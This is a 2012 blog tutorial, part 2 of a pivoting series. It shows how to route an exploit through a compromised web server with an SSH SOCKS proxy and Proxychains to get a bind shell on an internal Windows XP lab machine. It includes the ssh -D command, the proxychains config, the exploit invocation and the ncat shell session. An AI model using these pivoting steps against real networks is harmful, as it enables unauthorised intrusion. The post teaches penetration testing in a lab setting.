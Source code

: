 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 2: Proxychains"
date: 2012-10-10 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-2.html
---
```


This is part 2 of a series of posts on pivoting techniques. In part 1, we used SSH port forwarding to pivot our exploit and obtain remote access to our Windows XP machine. In this article, we'll be performing the same attack, but instead of using SSH local port forwarding, we'll use Proxychains and an SSH SOCKS proxy.

<!--more-->

Proxychains sends connections made by applications through a proxy specified in the proxychains.conf file. By default, it uses Tor's SOCKS port 9050. Proxychains 4 can be downloaded from [https://github.com/haad/proxychains](https://github.com/haad/proxychains).

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-10/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).


### The attack

To use Proxychains, we need to connect to the web server via SSH and set it as a SOCKS proxy. This is easily accomplished with the -D option in SSH. This is the command we would run on our machine: 

```
ssh -D 127.0.0.1:8888 webmaster@192.168.81.181
```

We would now have port 8888 listening on our machine, and any connection sent to that port will be proxied over to the web server, and the web server will make the connection on our behalf.
Proxychains 4 allows us to specify a configuration file to use, so we'll create a simple one that basically tells it to use port 8888 on our machine as the proxy: 

```
strict_chain
quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
localnet 127.0.0.0/255.0.0.0
 
[ProxyList]
socks4  127.0.0.1 8888
```

We'll save this as pivot.conf. We'll use the same exploit as before, which should open a bind shell on port 4444 on our Windows XP machine. Instead of running the exploit directly, we pass it as an argument to Proxychains: 

```
# proxychains4 -f ~/pivot.conf /usr/bin/python exploit.py 192.168.63.142 10000
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
[+] sending payload of length 1479
[+] done
#
```

The -f option allows us to tell Proxychains which configuration file we want to use; in this case, pivot.conf. Notice that when we executed exploit.py, we specified the actual IP address of the target, and not 127.0.0.1, like we did in part 1. Proxychains makes it look like the target is directly accessible to us.

Now that the exploit has been executed, we can attempt to connect to the target on port 4444 and obtain our shell. In this case, I'll use ncat 

```
# proxychains4 -f ~/pivot.conf ncat -v 192.168.63.142 4444
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully obtained a remote shell on a machine on the internal network by pivoting with Proxychains. So far we've required SSH in order to pivot our attack. In part 3, we'll use ncat's client-to-client and listener-to-listener relays to perform our pivoting; a technique that does not require SSH. 
